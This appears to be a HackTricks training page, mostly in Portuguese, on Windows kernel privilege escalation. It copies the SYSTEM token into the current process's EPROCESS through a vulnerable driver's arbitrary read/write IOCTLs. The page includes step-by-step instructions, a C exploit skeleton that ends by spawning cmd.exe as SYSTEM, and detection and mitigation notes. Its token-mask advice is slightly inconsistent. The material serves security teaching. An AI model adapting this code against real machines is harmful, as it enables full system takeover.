 # Windows kernel EoP: Token stealing with arbitrary kernel R/W

{{#include ../../banners/hacktricks-training.md}}

## Visão geral

Se um driver vulnerável expõe um IOCTL que dá a um atacante primitivas arbitrárias de leitura e/ou escrita no kernel, elevar para NT AUTHORITY\SYSTEM pode frequentemente ser alcançado roubando um token de acesso do SYSTEM. A técnica copia o ponteiro Token do EPROCESS de um processo SYSTEM para o EPROCESS do processo atual.

Por que funciona:
- Cada processo tem uma estrutura EPROCESS que contém (entre outros campos) um Token (na verdade um EX_FAST_REF para um objeto token).
- O processo SYSTEM (PID 4) possui um token com todos os privilégios habilitados.
- Substituir o EPROCESS.Token do processo atual pelo ponteiro de token do SYSTEM faz com que o processo atual passe a executar como SYSTEM imediatamente.

> Os offsets em EPROCESS variam entre versões do Windows. Determine-os dinamicamente (símbolos) ou use constantes específicas da versão. Lembre-se também que EPROCESS.Token é um EX_FAST_REF (os 3 bits menos significativos são flags de contagem de referência).

## Passos em alto nível

1) Localize a base de ntoskrnl.exe e resolva o endereço de PsInitialSystemProcess.
- A partir do modo usuário, use NtQuerySystemInformation(SystemModuleInformation) ou EnumDeviceDrivers para obter as bases dos drivers carregados.
- Adicione o offset de PsInitialSystemProcess (a partir de símbolos/reversão) à base do kernel para obter seu endereço.
2) Leia o ponteiro em PsInitialSystemProcess → este é um ponteiro do kernel para o EPROCESS do SYSTEM.
3) A partir do EPROCESS do SYSTEM, leia os offsets de UniqueProcessId e ActiveProcessLinks para percorrer a lista duplamente ligada das estruturas EPROCESS (ActiveProcessLinks.Flink/Blink) até encontrar o EPROCESS cujo UniqueProcessId é igual a GetCurrentProcessId(). Mantenha ambos:
- EPROCESS_SYSTEM (para SYSTEM)
- EPROCESS_SELF (para o processo atual)
4) Leia o valor do token do SYSTEM: Token_SYS = *(EPROCESS_SYSTEM + TokenOffset).
- Mascarar os 3 bits menos significativos: Token_SYS_masked = Token_SYS & ~0xF (comumente ~0xF ou ~0x7 dependendo do build; em x64 os 3 bits menos significativos são usados — máscara 0xFFFFFFFFFFFFFFF8).
5) Option A (common): Preserve os 3 bits menos significativos do seu token atual e combine-os com o ponteiro do SYSTEM para manter o contador de referência embutido consistente.
- Token_ME = *(EPROCESS_SELF + TokenOffset)
- Token_NEW = (Token_SYS_masked | (Token_ME & 0x7))
6) Escreva Token_NEW de volta em (EPROCESS_SELF + TokenOffset) usando sua primitiva de escrita no kernel.
7) Seu processo atual agora é SYSTEM. Opcionalmente, inicie um novo cmd.exe ou powershell.exe para confirmar.

## Pseudocódigo

Abaixo está um esqueleto que usa apenas dois IOCTLs de um driver vulnerável, um para leitura de 8 bytes no kernel e outro para escrita de 8 bytes no kernel. Substitua pela interface do seu driver.
```c
#include <Windows.h>
#include <Psapi.h>
#include <stdint.h>

// Device + IOCTLs are driver-specific
#define DEV_PATH   "\\\\.\\VulnDrv"
#define IOCTL_KREAD  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_KWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Version-specific (examples only – resolve per build!)
static const uint32_t Off_EPROCESS_UniquePid    = 0x448; // varies
static const uint32_t Off_EPROCESS_Token        = 0x4b8; // varies
static const uint32_t Off_EPROCESS_ActiveLinks  = 0x448 + 0x8; // often UniquePid+8, varies

BOOL kread_qword(HANDLE h, uint64_t kaddr, uint64_t *out) {
struct { uint64_t addr; } in; struct { uint64_t val; } outb; DWORD ret;
in.addr = kaddr; return DeviceIoControl(h, IOCTL_KREAD, &in, sizeof(in), &outb, sizeof(outb), &ret, NULL) && (*out = outb.val, TRUE);
}
BOOL kwrite_qword(HANDLE h, uint64_t kaddr, uint64_t val) {
struct { uint64_t addr, val; } in; DWORD ret;
in.addr = kaddr; in.val = val; return DeviceIoControl(h, IOCTL_KWRITE, &in, sizeof(in), NULL, 0, &ret, NULL);
}

// Get ntoskrnl base (one option)
uint64_t get_nt_base(void) {
LPVOID drivers[1024]; DWORD cbNeeded;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded >= sizeof(LPVOID)) {
return (uint64_t)drivers[0]; // first is typically ntoskrnl
}
return 0;
}

int main(void) {
HANDLE h = CreateFileA(DEV_PATH, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
if (h == INVALID_HANDLE_VALUE) return 1;

// 1) Resolve PsInitialSystemProcess
uint64_t nt = get_nt_base();
uint64_t PsInitialSystemProcess = nt + /*offset of symbol*/ 0xDEADBEEF; // resolve per build

// 2) Read SYSTEM EPROCESS
uint64_t EPROC_SYS; kread_qword(h, PsInitialSystemProcess, &EPROC_SYS);

// 3) Walk ActiveProcessLinks to find current EPROCESS
DWORD myPid = GetCurrentProcessId();
uint64_t cur = EPROC_SYS; // list is circular
uint64_t EPROC_ME = 0;
do {
uint64_t pid; kread_qword(h, cur + Off_EPROCESS_UniquePid, &pid);
if ((DWORD)pid == myPid) { EPROC_ME = cur; break; }
uint64_t flink; kread_qword(h, cur + Off_EPROCESS_ActiveLinks, &flink);
cur = flink - Off_EPROCESS_ActiveLinks; // CONTAINING_RECORD
} while (cur != EPROC_SYS);

// 4) Read tokens
uint64_t tok_sys, tok_me;
kread_qword(h, EPROC_SYS + Off_EPROCESS_Token, &tok_sys);
kread_qword(h, EPROC_ME  + Off_EPROCESS_Token, &tok_me);

// 5) Mask EX_FAST_REF low bits and splice refcount bits
uint64_t tok_sys_mask = tok_sys & ~0xF; // or ~0x7 on some builds
uint64_t tok_new = tok_sys_mask | (tok_me & 0x7);

// 6) Write back
kwrite_qword(h, EPROC_ME + Off_EPROCESS_Token, tok_new);

// 7) We are SYSTEM now
system("cmd.exe");
return 0;
}
```
Notas:
- Offsets: Use WinDbg’s `dt nt!_EPROCESS` com os PDBs do alvo, ou um carregador de símbolos em tempo de execução, para obter offsets corretos. Não hardcodear cegamente.
- Mask: Em x64 o token é um EX_FAST_REF; os 3 bits menos significativos são bits de contagem de referência. Manter os bits baixos originais do seu token evita inconsistências imediatas no refcount.
- Stability: Prefira elevar o processo atual; se você elevar um helper de curta duração pode perder SYSTEM quando ele encerrar.

## Detecção e mitigação
- Carregar drivers de terceiros não assinados ou não confiáveis que expõem IOCTLs poderosos é a causa raiz.
- Kernel Driver Blocklist (HVCI/CI), DeviceGuard e as regras de Attack Surface Reduction podem impedir que drivers vulneráveis sejam carregados.
- EDR pode monitorar sequências suspeitas de IOCTL que implementem leitura/gravação arbitrária e trocas de token.

## Referências
- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE) and kernel token theft](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [FuzzySecurity – Windows Kernel ExploitDev (token stealing examples)](https://www.fuzzysecurity.com/tutorials/expDev/17.html)

{{#include ../../banners/hacktricks-training.md}}

